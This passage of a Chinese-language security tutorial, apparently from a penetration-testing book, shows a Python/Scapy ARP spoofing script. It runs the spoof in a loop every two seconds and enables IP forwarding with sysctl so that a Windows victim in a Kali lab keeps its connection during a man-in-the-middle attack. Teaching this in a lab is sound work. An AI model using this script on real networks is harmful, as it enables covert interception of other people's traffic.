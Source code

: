 arp_response.psrc = "192.168.74.129"

send(arp_response)

if __name__ == "__main__":

欺骗受害者()

欺骗路由器()

注意，这只会欺骗这些设备一次。为了创建持久的欺骗，我们可以将这些函数调用添加到循环中，并在一定延迟后持续发送这些数据包。这样，`arp` 表将没有机会重置，你将能够永久欺骗这些设备，只要你的欺骗程序仍在运行。

我们也可以尝试在循环中设置退出条件。我们将使用 `KeyboardInterrupt` 来退出。使用以下代码在每 2 秒延迟后持续发送数据包：

try:

while True:

欺骗受害者()

欺骗路由器()

time.sleep(2)

except KeyboardInterrupt as err:

print("退出")

注意，你需要在文件顶部导入 time 模块。尽管我们的欺骗程序看起来已经完成，但仍然有一个小问题——如果受害者现在尝试请求互联网服务器，他们将看到互联网连接问题。运行 `arp` 欺骗程序在 Linux 上，并去 Windows 机器尝试访问一个网站。你将看到一个类似于以下的窗口：

![图 5.11 – 无连接](img/B14788_05_11.jpg)

图 5.11 – 无连接

这是因为数据包正在发送到 Kali 机器，但它正在阻止数据包的转发。为了启用数据包转发，请在 Linux 终端中运行以下命令：

sysctl -w net.ipv4.ip_forward=1
